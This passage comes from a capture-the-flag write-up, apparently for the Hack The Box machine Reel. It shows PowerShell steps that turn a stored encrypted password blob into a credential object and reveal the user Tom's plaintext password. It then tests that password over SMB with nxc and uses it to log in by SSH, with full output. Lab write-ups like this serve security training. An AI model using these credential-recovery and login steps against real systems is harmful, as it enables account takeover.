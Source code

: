 {% code overflow="wrap" %}
```powershell
# launch PowerShell
c:\Users\nico\Desktop> powershell
# assign the password in a variable
c:\Users\nico\Desktop> $pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692"
# create a secure string object
c:\Users\nico\Desktop> $securePass = ConvertTo-SecureString $pass -AsPlainText -Force
# assign the user name in a variable
c:\Users\nico\Desktop> $user = "HTB\Tom"
# create a pscredential object
c:\Users\nico\Desktop> $cred = New-Object System.Management.Automation.PSCredential($user,$securePass)
# confirm that the object was created
c:\Users\nico\Desktop> $cred

UserName                     Password
--------                     --------
HTB\Tom  System.Security.SecureString
# decrypt the password 
c:\Users\nico\Desktop> $cred.GetNetworkCredential() | fl


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```
{% endcode %}

We can confirm that the credentials are valid and then use them to SSH into the box:

{% code overflow="wrap" %}
```bash
# validate credentials
$ nxc smb 10.10.10.77 -u Tom -p '1ts-mag1c!!!'
SMB         10.10.10.77     445    REEL             [*] Windows Server 2012 R2 Standard 9600 x64 (name:REEL) (domain:HTB.LOCAL) (signing:True) (SMBv1:True)
SMB         10.10.10.77     445    REEL             [+] HTB.LOCAL\Tom:1ts-mag1c!!!
# ssh into the box as tom
$ ssh tom@10.10.10.77
The authenticity of host '10.10.10.77 (10.10.10.77)' can't be established.
ED25519 key fingerprint is SHA256:fIZnS9nEVF3o86fEm/EKspTgedBr8TvFR0i3Pzk40EQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.77' (ED25519) to the list of known hosts.
tom@10.10.10.77's password:
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

tom@REEL C:\Users\tom>
```
{% endcode %}


[^1]: Living Off The Land
[^2]: Elevation of Privileges
[^3]: Elevation of Privileges
[^4]: Living Off The Land
[^5]: Elevation of Privileges
[^6]: Living Off The Land